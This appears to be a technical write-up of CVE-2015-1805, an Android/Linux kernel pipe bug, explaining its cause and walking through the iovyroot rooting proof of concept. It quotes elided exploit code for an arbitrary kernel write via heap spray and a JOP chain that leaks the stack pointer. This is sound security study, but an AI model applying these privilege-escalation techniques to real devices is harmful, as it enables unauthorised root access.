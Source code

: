 ```
        iov->iov_base += copy;
        iov->iov_len -= copy;
    }
    return 0;
}
```

pipe_iov_copy_to_user uses a while loop to do the copy, in every loop, it will update iov->iov_base and iov->iov_len, but when error happens, the execution flow in pipe read will go to redo, but  iov->iov_base and iov->iov_len were already updated while the outside total_len is not. So there is a memory overrun bug.

This bug is danger because it allows the user to reach __copy_to_user_inatomic, which has no access_ok check, can lead to arbitrary kernel memory write.

### How to exploit - PoC analysis
Details about the to exploit is in [影响所有Nexus手机的漏洞,浅析CVE-2015-1805](https://blog.csdn.net/py_panyu/article/details/51026692).
Today we gonna walk through a PoC called iovyroot ([github link](https://github.com/dosomder/iovyroot)), which can temporary root Nexus 5X. It is a good case study. 


#### Achieve arbitrary kernel Memory Write
The arbitrary kernel memory write function is [`write_at_address`](https://github.com/dosomder/iovyroot/blob/master/jni/getroot.c#L37).
```
static int write_at_address(void* target, unsigned long targetval)
{
    ...
    printf("    [+] Patching address %p\n", target);
    if(startmapunmap())
        return 1;
    if(startwritepipe(targetval))
        return 1;
    if(heapspray(target))
        return 1;
    ...
}
```
1. startwritepipe will write the target_val into pipe buffer, which will be served as from in [`pipe_iov_copy_to_user(struct iovec *iov, const void *from, unsigned long len, int atomic)`](https://elixir.bootlin.com/linux/v3.10/source/fs/pipe.c#L146). 
2. heapspray will place target_addr into a special craft iovs, serve as the iov->iov_base in  [`(__copy_to_user_inatomic(iov->iov_base, from, copy))`](https://elixir.bootlin.com/linux/v3.10/source/arch/arm64/include/asm/uaccess.h#L267). `__copy_to_user_inatomic` does NOT check [`access_ok`](https://elixir.bootlin.com/linux/v3.10/source/arch/arm64/include/asm/uaccess.h#L102), which will achieve arbitrary kernel memory write.

#### Leak stack pointer by JOP chain 
The JOP first jump address is in [`offset.c`](https://github.com/dosomder/iovyroot/blob/master/jni/offsets.c#L32). 
```
// in getroot
if(write_at_address(o->check_flags, (long)o->joploc)) //Step 1
    return 1;

sidtab = o->sidtab;
policydb = o->policydb;
preparejop(MMAP_START, o->jopret);
if((dev = open("/dev/ptmx", O_RDWR)) < 0)
    return 1;

fp = (unsigned)fcntl(dev, F_SETFL, MMAP_START); //Step 2
fp += KERNEL_START;
ti = get_thread_info(fp);
```